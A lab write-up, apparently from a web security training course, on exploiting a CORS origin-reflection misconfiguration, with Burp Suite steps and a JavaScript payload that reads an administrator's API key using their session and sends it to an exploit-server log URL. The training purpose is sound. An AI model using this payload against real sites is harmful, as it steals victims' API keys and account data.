

# LAB: CORS vulnerability with basic origin reflection

## Given:

- The website has an insecure CORS configuration: it trusts all origins (reflected in the `Access-Control-Allow-Origin` header).
- You can log in to your own account using the credentials: `wiener:peter`.

## Objective:

Craft JavaScript that uses CORS to retrieve the administrator's API key and exfiltrate it to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## Key Concepts:

- **CORS (Cross-Origin Resource Sharing):** A browser security feature that controls how resources are shared between different origins.
- **Origin Reflection:** If a server reflects the `Origin` header value in `Access-Control-Allow-Origin`, it may allow any site to make authenticated requests and read sensitive data.
- **Exploit Server:** A server provided to host and deliver your attack payload to the victim (administrator).

## Steps Taken:

1. Proxy browser traffic through Burp Suite to capture and analyze all requests.
2. Load the target website.
3. Log in with the provided credentials (`wiener:peter`).
4. Explore the `my-account` page and observe a request to `/accountDetails` that returns the API key of the logged-in user.



5. Note the presence of an Exploit Server.
6. Open the Exploit Server and check the logs.
7. Test the logs endpoint by sending a request with a random parameter (e.g., `?name=mahmood`) and confirm it appears in the logs.


8. The attack flow: Any exploit you upload to the Exploit Server will be sent to the administrator, who will open the link and execute your payload in their browser.
9. Paste the payload below into the Exploit Server and deliver it to the victim.
10. Check the logs to see if the administrator's API key was exfiltrated (indicating the payload executed in their browser).
11. Copy the API key from the logs and submit it to solve the lab.

## Payloads Used:

```javascript
fetch(
  "https://0a9200f4033ffc19804512d000440093.web-security-academy.net/accountDetails",
  {
    method: "GET",
    credentials: "include",
  }
)
  .then((response) => response.json())
  .then((data) => {
    fetch(
      `https://exploit-0a58000003aafcc7808e11cb015b005b.exploit-server.net/log?key=${data.apikey}`
    );
  });
```

## Payload Explanation

- The Exploit Server delivers a phishing link to the administrator as an HTML file.
- The payload is a `<script>` that runs in the administrator's browser.
- The script:
  1. Makes a CORS request to `/accountDetails` using the administrator's session (with credentials included).
  2. Extracts the API key from the JSON response.
  3. Sends the API key to your Exploit Server logs for retrieval.

## Issues Encountered:

- The CORS misconfiguration was not immediately obvious without inspecting the `Access-Control-Allow-Origin` header.
- Some browsers may cache CORS preflight responses, so changes in the exploit or server behavior might require a hard refresh or clearing cache.
- If the payload does not work, double-check the exploit server URL and ensure the administrator visits the exploit link.

## Solutions/Workarounds:

- Used Burp Suite to inspect HTTP responses and confirm the insecure CORS policy.
- Verified the exploit server logs to ensure the payload was received and executed.
- Ensured the payload included `credentials: "include"` to send cookies with the cross-origin request.
- Used the correct endpoint and parameter names as observed in the original requests.

## Takeaways:

- Always check CORS headers for insecure configurations, especially origin reflection.
- Exploit servers are powerful tools for simulating real-world attacks and exfiltrating sensitive data.
- Understanding browser security features like CORS is essential for both attackers and defenders.
- Automating the attack with JavaScript can reliably extract sensitive information if CORS is misconfigured.
